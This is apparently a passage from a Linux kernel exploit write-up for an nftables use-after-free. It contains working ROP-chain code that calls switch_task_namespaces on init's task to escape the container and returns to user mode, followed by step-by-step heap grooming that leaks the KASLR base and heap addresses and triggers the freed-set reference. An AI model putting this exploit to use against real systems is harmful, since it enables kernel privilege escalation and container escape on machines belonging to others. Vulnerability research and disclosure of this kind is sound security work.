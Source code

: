```c
    data[i++] = -0xffff;
    data[i++] = kbase + mov_rax_rcx_ret;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}
```

### COS Exploit

#### Information Leak

The KASLR address and heap address are leaked through `nft_rule` allocated in `kmalloc-cg-192`. The leak process is as follows:

- Create four chains, `Base`, `Vulnerable`, `Chain_Victim`, and `Target`. Set `NFT_CHAIN_BINDING` flag for `Vulnerable`.
- Create chains `Chain_Victim2_n`.
- Create an anonymous rhash set `Set_Victim`.
- Create a set element in set `Set_Victim`. The element is allocated in `kmalloc-cg-256`.

- Create rules `Rule_Victim2_n` in `Chain_Victim2_n`. The rules are allocated in `kmalloc-cg-192`.
- Create rules `Rule_Targret_n` in `Target` with an `counter expr`. The rules are allocated in `kmalloc-cg-192`. The kbase and heap address in the `Rule_Targret_n` are used for leak in following step. We can read the target rule allocated right after the `Rule_Victim2_n`.
- Create rules `Rule_Victim_n` in `Chain_Victim` with an `immediate expr` referencing the `Chain_Victim2_n`. The rules are allocated in `kmalloc-cg-256`.

- Create a rule `R1` in `Base` with an `immediate expr` referencing the `Vulnerable`.
- Create a rule `R2` in `Vulnerable` with a `lookup expr` referencing the `Set_Victim`.
- Delete the `R1`. This results in `Set_Victim` being free from the destroy phase.
- Delete the set element in `Set_Victim`. This results in a UAF that references `Set_Victim` that was freed in previous step.

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
				       const struct nft_set *set, void *elem)
{
	struct nft_set_ext *ext = nft_set_elem_ext(set, elem);          // [8]

	if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
		nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));      // [9]

	kfree(elem);
}
```
